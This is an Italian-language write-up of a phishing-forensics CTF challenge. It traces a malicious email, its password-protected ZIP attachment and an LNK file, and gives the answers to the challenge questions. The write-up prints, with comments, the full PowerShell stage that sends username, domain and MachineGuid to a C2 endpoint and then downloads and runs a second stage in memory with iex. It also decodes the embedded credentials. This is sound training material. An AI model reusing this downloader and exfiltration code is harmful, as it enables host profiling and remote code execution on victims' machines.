



# AoTR1: A Call from the Museum






Il file **URGENT_ Updated Health & Customs Compliance for Cross-Border Festive Event.eml** è un email di 2195 righe.

### 1. Who is the suspicious sender of the email?


```
eu-health@ca1e-corp.org
```
### 2. What is the legitimate server that initially sent the email?


```
BG1P293CU004.outbound.protection.outlook.com
```

### 3. What is the attachment filename?


```
Health_Clearance-December_Archive.zip
```

### 4. What is the Document Code?

Si estrae il file allegato alla email utilizzando il repository [**/mike-fresh/mailextract**](https://github.com/mike-fresh/mailextract).


Il file **Health_Clearance-December_Archive.zip** è protetto da password.

`part1`


La password del file ZIP è **Up7Pk99G**.


`Health_Clearance_Guidelines.pdf`



```
EU-HMU-24X
```

### 5. What is the full URL of the C2 contacted through a POST request?

Si utilizza il repository [/xelemental/Mal-LNK-Analyzer](https://github.com/xelemental/Mal-LNK-Analyzer) per l'analisi del file **EU_Health_Compliance_Portal.lnk**.

```bash
$ python3 Mal-LNK-Analyzer/mal-lnk.py --output /tmp/AoTR1/res.json /tmp/AoTR1/unzip2/EU_Health_Compliance_Portal.lnk
```


`https://www.virustotal.com/gui/file/e5389af56fae1ed9c3eb85a96bd0f0a2493cec8129c7767bb6b792d1f583144e/detection`


Si analizzano i comandi che vengono eseguiti.

```powershell
# Craft a string by substring concat
$BIGSTR =(-join('Basicc3','ZjX3Rlb','XA6U2','5','vd0JsY','WNrT','3V','0X','zIwM','jYh'));

# Open the PDF file
Start-Process .\\Health_Clearance_Guidelines.pdf;

# Get the current user name and domain name 
$USERNAME =$env:USERNAME;
$USERDOMAIN =$env:USERDOMAIN;

# URLS
$URL1 =[System.Uri]::UnescapeDataString('https://health-status-rs.com/api/v1/checkin');
$URL2 =[System.Uri]::UnescapeDataString('https://advent-of-the-relics-forum.htb.blue/api/v1/implant/cid=');

# Get MachineGuid value stored in the regitry key HKLM\SOFTWARE\Microsoft\Cryptograph\MachineGuid
$MACHINEGUID =(Get-ItemProperty HKLM:\\SOFTWARE\\Microsoft\\Cryptography).MachineGuid;

# Dictionary
$dict = @{u= $USERNAME 
d= $USERDOMAIN 
g= $MACHINEGUID };

# Make a POST request to $URL1
$res1 =(iwr $URL1 -Method POST -Body $dict).Content;

# Make a GET request to URL2 and execute the result stored in memory
$header =@{Authorization= $BIGSTR };
iwr -Headers $header $URL2$res1 | iex

```

```
https://health-status-rs.com/api/v1/checkin
```

### 6. The malicious script sent three pieces of information in the POST request. What is the registry key from which the last one is retrieved?

```
HKLM\SOFTWARE\Microsoft\Cryptograph\MachineGuid
```

### 7. Then the script downloads and executes a second stage from another URL. What is the domain?

```
advent-of-the-relics-forum.htb.blue
```

### 8. A set of credentials was used to access the previous resource. Retrieve them.

Si fa riferimento al valore del campo `Authorization` nel HTTP Header della GET fatta al dominio **advent-of-the-relics-forum.htb.blue** ($URL2).

```
Basicc3ZjX3RlbXA6U25vd0JsYWNrT3V0XzIwMjYh

Basic $base64-encode$

Basic svc_temp:SnowBlackOut_2026!
```

```
svc_temp:SnowBlackOut_2026!
```

---
